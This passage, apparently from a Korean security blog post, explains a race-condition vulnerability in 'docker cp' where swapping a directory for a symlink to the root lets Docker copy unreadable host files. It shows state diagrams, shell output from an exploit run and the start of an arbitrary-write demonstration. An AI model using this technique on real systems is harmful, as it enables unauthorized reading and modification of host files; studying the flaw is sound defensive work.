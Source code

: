 [위]()에서 언급한 A와 B 상태 중 B 상태일 때를 생각해봅시다.

```bash
# B
drwxr-xr-x  totally_safe_path
lrwxrwxrwx  totally_safe_path-stashed -> /
```

 `docker cp` 명령 수행이 시작되고 컨테이너 내부 경로인 `/totally_safe_path/w00t_w00t_im_a_flag` 가 `FollowSymlinkInScope` 함수에 전달되면 `/var/lib/docker/overlay2/CONTAINER_ID/merged/totally_safe_path/w00t_w00t_im_a_flag` 가 반환됩니다. 인자로 주어진 경로의 어느 곳에도 심볼릭 링크가 걸려있지 않기 때문에 `/var/lib/docker/overlay2/CONTAINER_ID/merged` 만 붙여 반환한 것입니다. (반환 값이 존재하지 않는 경로여도 상관없습니다. `FollowSymlinkInScope` 는 오직 심볼릭 링크만 신경씁니다.)

만일 `FollowSymlinkInScope` 함수가 끝나고 `/var/lib/docker/overlay2/CONTAINER_ID/merged/totally_safe_path/w00t_w00t_im_a_flag` 를 `ex${i}/out` 로 복사하려는 그 순간의 바로 직전에 A 상태가 된다면?

```bash
# A (Container View)
lrwxrwxrwx  totally_safe_path -> /
drwxr-xr-x  totally_safe_path-stashed

# A (Host Filesystem View)
lrwxrwxrwx  /var/lib/docker/overlay2/CONTAINER_ID/merged/totally_safe_path -> /
drwxr-xr-x  /var/lib/docker/overlay2/CONTAINER_ID/merged/totally_safe_path-stashed
```

`/var/lib/docker/overlay2/CONTAINER_ID/merged/totally_safe_path` 가 `/` 에 링크되어 있는 상태이므로 실제로 수행되는 것은 `/w00t_w00t_im_a_flag` 가 `ex${i}/out` 로 복사되는 것입니다. 도커가 가진 루트 권한으로. `ex${i}/out` 에 대해서는 읽기 권한을 가지고 있으므로, 결론적으로는 읽기 권한이 없는 `/w00t_w00t_im_a_flag` 의 내용을 읽을 수 있게 됩니다.

쉘 스크립트를 실행하고 결과를 확인하면 다음과 같습니다.

```bash
$ cat /w00t_w00t_im_a_flag
cat: /w00t_w00t_im_a_flag: Permission denied
$ ls
Dockerfile  read.sh  symlink_swap.c
$ ./read.sh  # Exploit (will take some time)
$ grep 'SUCCESS' ex*/out | wc -l
7
```

500번의 시도 중 7번 성공하였습니다.

### Arbitrary Write

이번엔 쓰기입니다. 우리의 목표는 쓰기 권한이 없는 호스트 파일시스템 상의 `/w00t_w00t_im_a_flag` 파일에 `SUCCESS -- HOST FILE CHANGED` 라는 문자열을 쓰는 것입니다.

```bash
$ echo "FAILED -- HOST FILE UNCHANGED" | sudo tee /w00t_w00t_im_a_flag
FAILED -- HOST FILE UNCHANGED
$ sudo chmod 0444 /w00t_w00t_im_a_flag
$ echo "SUCCESS -- HOST FILE CHANGED" > /w00t_w00t_im_a_flag 
bash: /w00t_w00t_im_a_flag: Permission denied
```
